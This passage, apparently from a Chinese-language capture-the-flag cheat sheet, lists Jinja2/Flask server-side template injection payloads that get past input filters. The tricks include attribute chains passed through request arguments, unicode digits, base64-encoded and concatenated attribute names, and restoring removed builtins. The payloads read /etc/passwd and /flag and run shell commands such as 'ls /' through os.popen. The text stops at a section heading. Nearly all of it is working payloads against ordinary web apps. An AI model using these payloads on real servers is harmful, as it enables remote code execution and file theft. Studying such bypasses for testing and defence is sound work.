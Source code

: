 复制

```
{{{}|attr(request.args.param)|attr(request.args.mro)|attr(request.args.sub)()|attr(request.args.item)(475)(request.args.file)|attr(request.args.re)()}}
  &param=__class__&mro=__base__&sub=__subclasses__&item=__getitem__&file=/etc/passwd&re=read
```

#### **数字**

unicode字符：`𝟎𝟏𝟐𝟑𝟒𝟓𝟔𝟕𝟖𝟗`，`𝟘𝟙𝟚𝟛𝟜𝟝𝟞𝟟𝟠𝟡`，`０１２３４５６７８９`

#### **对象层面**

- set {}=None

  其他引用：

  `{{% set config=None %}} => {{url_for.__globals__.current_app.config}}`

  `{{% set __builtins__=None %}} => {{[c for c in ().__class__.__base__.__subclasses__() if c.__name__ == 'catch_warnings'][0]()._module.__builtins__}}`

- del

  重载： `reload(__builtins__)`

- 其他

  获得对应函数的上下文常量：`func.__code__.co_consts`

#### **关键字**

- **base64编码**

  `__getattribute__`使用实例访问属性时，调用该方法。

  例如被过滤掉`__class__`关键词：

  复制

  ```
  {{[].__getattribute__('X19jbGFzc19f'.decode('base64')).__base__.__subclasses__()[40]("/etc/passwd").read()}}
  ```

- **字符串拼接**

  复制

  ```
  yyy.__init__.__globals__.__builtins__|attr('__getit''em__')('ev''al')('__imp''ort__("o''s").po''pen("ls /").re''ad()')
  [].__getattribute__('__c'+'lass__').__base__.__subclasses__()[40]("/etc/passwd").read()
  [].__class__.__bases__[0].__subclasses__()[127].__init__.__globals__.__builtins__["op"+"en"]("/fl"+"ag").read()
  ```

- **反转**

  复制
